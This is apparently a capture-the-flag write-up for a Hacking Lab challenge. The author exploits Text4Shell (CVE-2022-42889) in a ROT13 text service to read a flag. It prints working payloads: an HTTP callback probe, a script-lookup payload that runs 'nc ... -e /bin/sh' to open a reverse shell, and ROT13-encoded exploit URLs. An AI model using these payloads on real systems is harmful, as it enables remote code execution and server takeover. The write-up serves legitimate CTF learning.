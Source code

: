 # [HV22.09] Santa's Text

<table>
  <tr>
    <th>Categories</th>
    <td>Penetration testing</td>
  </tr>
  <tr>
    <th>Level</th>
    <td>medium</td>
  </tr>
  <tr>
    <th>Author</th>
    <td>yuva</td>
  </tr>
</table>

## Description

Santa recently created some Text with a 🐚, which is said to be vulnerable code. Santa has put this Text in his library, putting the library in danger. He doesn't know yet that this could pose a risk to his server. Can you backdoor the server and find all of Santa's secrets?


## Solution
The service does a ROT13 on the entered text.

Changing query params to the following produces an error page that looks like a Java/Tomcat (or similar) error page: 
```
https://<host>/santa/attack?search=((%3E%22\\)&bla=9843u53SF
```

Reading the description again, there's a clear hint towards "Text4Shell", one of the big Java library vulnerabilities, this year with the CVE number [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889).

A simple way to confirm Text4Shell, is to issue a http request to my own machine ([source](https://www.neosec.com/blog/vulnerability-explained-remote-code-execution-through-text4shell)).

But first, since the network elves have done their work and machine cannot talk to the outside, I had to connect to the CTF VPN first.
2h later (see "Notes" below), I was able to receive requests from the vulnerable machine.

So, I spun up a listening netcat (`nc -l 9090`) and used the following payload to provoke a http request in return:
```
${url:UTF-8:http://10.13.0.26:9090}
```

The ROT13 part requires us to either copy&paste the first input or to apply ROT13 before sending the payload. The final request triggering this callback looks as follows:
```
https://<host>/santa/attack?search=grfg%24%7Bhey%3AHGS-8%3Auggc%3A%2F%2F10.13.0.26%3A9090%7D
```
With this, `nc` prints out the incoming request (Don't forget to disable the firewall! ;) ):
```
GET / HTTP/1.1
User-Agent: Java/13.0.12
Host: 10.13.0.26:9090
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Yay, so the Text4Shell bit is right. Now let's try to get a reverse shell with the following payload ([source](https://cloudsecurityalliance.org/blog/2022/12/02/detecting-and-mitigating-cve-2022-42889-a-k-a-text4shell/)):
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nc 10.13.0.26 9090 -e /bin/sh')}
```

Resulting in the explointing request: 
```
https://<host>/santa/attack?search=%24%7Bfpevcg%3Awninfpevcg%3Awnin.ynat.Ehagvzr.trgEhagvzr%28%29.rkrp%28%27ap+10.13.0.26+9090+-r+%2Fova%2Ffu%27%29%7D
```

Typing in `ls` on our `nc` session discloses that the server has connected by listing a few files.
After some browsing around on the server, we can find the flag at `/SANTA/FLAG.txt`.
```sh
cat /SANTA/FLAG.txt
HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}
```

### Links
- https://www.docker.com/blog/security-advisory-cve-2022-42889-text4shell/
- https://www.neosec.com/blog/vulnerability-explained-remote-code-execution-through-text4shell
- https://cloudsecurityalliance.org/blog/2022/12/02/detecting-and-mitigating-cve-2022-42889-a-k-a-text4shell/

## Notes
HL VPN did not work through my home router. It finally worked through my mobile hotspot. (which is weirdo, Swisscom! No fingerpointing, plz).

## Flag
```
HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}
```
